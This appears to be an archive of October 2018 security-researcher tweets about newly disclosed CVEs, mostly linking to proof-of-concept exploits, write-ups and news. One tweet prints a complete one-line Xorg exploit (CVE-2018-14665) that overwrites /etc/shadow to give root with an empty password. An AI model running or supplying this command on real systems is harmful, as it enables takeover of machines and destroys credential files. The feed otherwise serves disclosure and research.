


# steventseeley
**https://twitter.com/steventseeley/status/1057682028664111105 _at 2018-10-31, 17:13:41_**
<blockquote>
Since @SandboxEscaper did a nice blog post, I decided to share my standalone poc exploit for CVE-2018-8440 that I needed for a client at the time: https://t.co/Qn1nqsupOb. Also, @metasploit should use an exe instead of a dll imho: https://t.co/IyicFVhwN3
</blockquote>

* https://github.com/sourceincite/CVE-2018-8440
* https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/alpc_taskscheduler.rb#L86

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1056193585987706882 _at 2018-10-27, 14:39:08_**
<blockquote>
#CVE-2018-3246 Weblogic XML External Entity (XXE). I utilized Weblogic  12.1.3.0.0 for the test. https://t.co/5yjGBafXBD
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>300</code></td>
</tr></table>

---

# leonov_av
**https://twitter.com/leonov_av/status/1055871303889104897 _at 2018-10-26, 17:18:30_**
<blockquote>
Lol. It works. 😊 Tweetable Exploit by @hackerfantastic for https://t.co/f6XXfwufVX Server Local Privilege Escalation (CVE-2018-14665). It fills /etc/shadow with trash, but leaves one correctly interpreted line setting empty password for root. https://t.co/fkEMPCyxkt
</blockquote>

* http://X.org

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1055822899330932737 _at 2018-10-26, 14:06:10_**
<blockquote>
New privilege-escalation flaw (CVE-2018-14665) discovered in https://t.co/8eq405azzF Server that affects OpenBSD and most #Linux distributions, including Debian, #Ubuntu, CentOS, Red Hat and Fedora. [Install Patches]

https://t.co/obBqAuZyuW

Researcher releases PoC exploit code. https://t.co/8AK6jgGTYz
</blockquote>

* http://X.Org
* https://thehackernews.com/2018/10/privilege-escalation-linux.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>227</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at 2018-10-25, 21:14:26_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>20</code></td>
<td>Retweets: <code>355</code></td>
<td>Favorites: <code>479</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at 2018-10-25, 20:23:03_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at 2018-10-25, 17:53:49_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>941</code></td>
<td>Favorites: <code>1363</code></td>
</tr></table>

---

# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at 2018-10-25, 14:33:50_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>179</code></td>
</tr></table>

---

# LiveOverflow
**https://twitter.com/LiveOverflow/status/1053385745870786561 _at 2018-10-19, 20:41:47_**
<blockquote>
HOW FRCKN' HARD IS IT TO UNDERSTAND A URL?! 

A video looking at the underlaying issue of a universal XSS in Chrome on iOS (CVE-2018-6128)

https://t.co/FNI17rg6qW https://t.co/EQm0CaUpNP
</blockquote>

* https://www.youtube.com/watch?v=0uejy9aCNbI

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>282</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1053223883845853184 _at 2018-10-19, 09:58:36_**
<blockquote>
#vulhub Run `docker run -it -p 2222:22 --rm vulhub/libssh:0.8.1` or use https://t.co/3GseYLFkKc to start a libssh 0.8.1 server to perform the CVE-2018-10933. https://t.co/UXDra7bw2b
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/libssh/CVE-2018-10933

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# joernchen
**https://twitter.com/joernchen/status/1052054119920427008 _at 2018-10-16, 04:30:23_**
<blockquote>
My exploitation notes for CVE-2018-17456 (.gitmodules RCE) https://t.co/r269O9Ejcu
</blockquote>

* https://gist.github.com/joernchen/38dd6400199a542bc9660ea563dcf2b6

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1050164602527473666 _at 2018-10-10, 23:22:07_**
<blockquote>
CVE-2018-8265 and CVE-2018-8493 will keep a lot of people busy this month! Remote TCP/IP stack info disclosure &amp; RCE on Exchange via an email. The Exchange bug, if reliable, is WAY more troublesome.
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>164</code></td>
</tr></table>

---

# SelsRoger
**https://twitter.com/SelsRoger/status/1050105182422556672 _at 2018-10-10, 19:26:00_**
<blockquote>
Microsoft patches 0day vulnerability in win32k.sys discovered by  Kaspersky Lab in August, targeting victims in the Middle East. Microsoft confirmed the vulnerability and designated it CVE-2018-8453. The exploit was executed by the first stage of a malware installer
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1049324028144640000 _at 2018-10-08, 15:41:58_**
<blockquote>
Turns Out #MikroTik Router's WinBox #Vulnerability (CVE-2018-14847) is More Dangerous Than Previously Thought

New PoC Exploit Allows Attackers to Gain Full Root Access—Turned  'Medium' Vulnerability Into 'Critical' in Severity

https://t.co/ZD9qWT8YW3 https://t.co/MDfspXziMU
</blockquote>

* https://thehackernews.com/2018/10/router-hacking-exploit.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>180</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1047855525667504129 _at 2018-10-04, 14:26:40_**
<blockquote>
CVE-2018-6851 to CVE-2018-6857: Sophos Privilege Escalation Vulnerabilities

- technical writeUp &amp;&amp; PoC Movie

#infosec #vulnerability #exploitDev 
https://t.co/G0OE88kJgb
</blockquote>

* https://labs.nettitude.com/blog/cve-2018-6851-to-cve-2018-6857-sophos-privilege-escalation-vulnerabilities/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

